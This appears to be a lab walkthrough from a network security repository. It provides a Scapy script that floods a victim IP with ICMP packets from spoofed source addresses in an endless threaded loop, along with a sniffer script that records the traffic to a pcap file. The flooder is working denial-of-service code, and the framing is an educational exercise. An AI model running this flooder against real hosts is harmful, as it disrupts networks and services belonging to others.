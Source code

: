 - Create a scapy code attack.py in the attacker machine

```
#!/usr/bin/env python

import sys
import threading

from scapy.all import *

if len(sys.argv) < 3:
  print(f"sudo {sys.argv[0]} <victim IP> <random IPs for source seperated by SPACE>")
  sys.exit(1)

dstIP = sys.argv[1]
srcIPs = sys.argv[2:]
while True:
  for srcIP in srcIPs:
    threading.Thread(
      target=send,
      args=(
        IP(src=srcIP, dst=dstIP) / ICMP(),
      ),
      kwargs={
        "count": 100
      }
    ).start()
```

- Create a victim.py file to sniff the attack from the attacker
  
```
#!/usr/bin/env python3

import signal
import sys

if len(sys.argv) != 2:
  print("sudo {} <pcap file name to save>".format(sys.argv[0]))
  sys.exit(1)

pktfilename = sys.argv[1]

try:
  from scapy.all import *
except ImportError:
  import os
  os.system("pip install scapy==2.5.0 matplotlib==3.8.2 pyx==0.16 vpython==7.6.4 cryptography==42.0.2")
  sys.exit(1)


def abrt_sig_hndler(sig, frame):
  print(sig)
  print(frame)
  print("Pressed Ctrl C")
  pkts = sniffer.stop()
  # pkts.summary()
  wrpcap(pktfilename, pkts, append=True)
  sys.exit(0)

signal.signal(signal.SIGINT, abrt_sig_hndler)

sniffer = AsyncSniffer()
sniffer.start()
sniffer.join()
```

- Run the victim.py and the following pcap file in which you want to save the sniffed packets

``` sudo python3 victim.py victim.pcap ```

![image](https://github.com/udayk01/Network-Security/assets/52235763/90d9cca3-f986-49af-9845-461b76070a4d)

- Then run the attacker code in the attacker machine , with victim ip followed by some random ips

``` sudo python3 attack.py "victim ip" "random ip" "random ip" "random ip"```

  ![image](https://github.com/udayk01/Network-Security/assets/52235763/526eeb7f-2ba3-4e7e-a419-957f6e97b0b9)

We can see the packets being sent

![image](https://github.com/udayk01/Network-Security/assets/52235763/55c24dff-bdef-4d24-9967-4c2098a4e069)

After that end the victim.py program, and we can see that the pcap file is saved.

![image](https://github.com/udayk01/Network-Security/assets/52235763/8d75bf9a-6d7d-4b81-b80f-d69e2c6c1cb5)

Open and explore the victim.pcap and we can see the attack happening

![image](https://github.com/udayk01/Network-Security/assets/52235763/af97804c-0e57-4deb-8a0a-e2e0ba551e6e)


  
